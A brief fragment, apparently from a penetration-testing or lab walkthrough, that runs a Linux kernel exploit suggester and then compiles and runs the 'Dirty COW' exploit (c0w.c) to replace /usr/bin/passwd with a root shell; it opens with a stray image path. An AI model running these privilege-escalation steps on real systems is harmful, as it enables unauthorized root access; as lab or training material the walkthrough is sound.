 run exploit suggester
```bash
perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl
```
show that kernel exploit "Dirty COW" is listed.

```bash
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w  
./c0w
```
compile the available "Dirty COW" code and run it to get /usr/bin/passwd that spawn shell.